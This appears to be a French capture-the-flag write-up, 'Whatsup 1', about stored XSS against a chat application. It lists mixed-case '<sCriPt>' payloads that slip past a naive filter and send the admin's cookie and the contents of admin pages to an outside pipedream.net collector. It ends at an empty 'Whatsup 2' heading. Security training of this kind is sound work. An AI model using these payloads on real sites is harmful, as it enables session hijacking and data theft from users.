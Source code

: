 # Whatsup 1

Les failles XSS consistent à executer du code sur la machine d'un autre utilisateur et potentielement un utilisateur qui possède des droits plus élevés.

Nous avons donc pensé à récupérer le cookie de l'admin via une faille XSS.

Le site est un site de messagerie semblable à whatsapp ou messenger. 
Alors on a envoyé un message avec un script js à l'admin. Le but était de récupérer son cookie d'authentification et l'envoyer à un serveur.

```
<sCriPt>fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:document.cookie;});</ScRipt>
```
Il y avait un mécanisme de sécurité sensé evitér les faille XSS en empêchant d'écrire `<script>` mais nous l'avons bypass en écrivant `<sCriPt>`.

Nous avons ouvert un serveur pipedream pour récuperer ce cookie et cela a bien fonctionné.

NB:

Il nous a fallu du temps avant de comprendre qu'il fallait récupérer le cookie car, de notre côté, il avait le flag `Secure` qui empêche Javascript d'y acceder.

Nous avons donc acceder aux messages de l'admin, d'envoyer des messages en tant qu'admin et d'accèder à la page admin.html.

```
<sCriPt>fetch("//whatsup.secu-web.blackfoot.dev/admin",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:e})}));</ScRipt>
<sCriPt>fetch("/admin",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:e})}));</ScRipt>
<sCriPt>fetch("/messages",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:e})}));</ScRipt>
<sCriPt>fetch("/messages/116",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:e})}));</ScRipt>
<sCriPt>fetch("/",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:e})}));</ScRipt>
<sCriPt>fetch("/admin",{method:"POST",body:""}).then((e=>e.text())).then((e=>{fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:e})}));</ScRipt>
<sCriPt>fetch("http://whatsup:8000/admin%22,%7Bmethod:%22GET%22%7D).then((e=%3Ee.text())).then((e=%3E%7Bfetch(%22http://eornrwibpnp988b.m.pipedream.net%22,%7Bmethod:%22POST%22,body:e%7D)%7D));</ScRipt>
```

# Whatsup 2
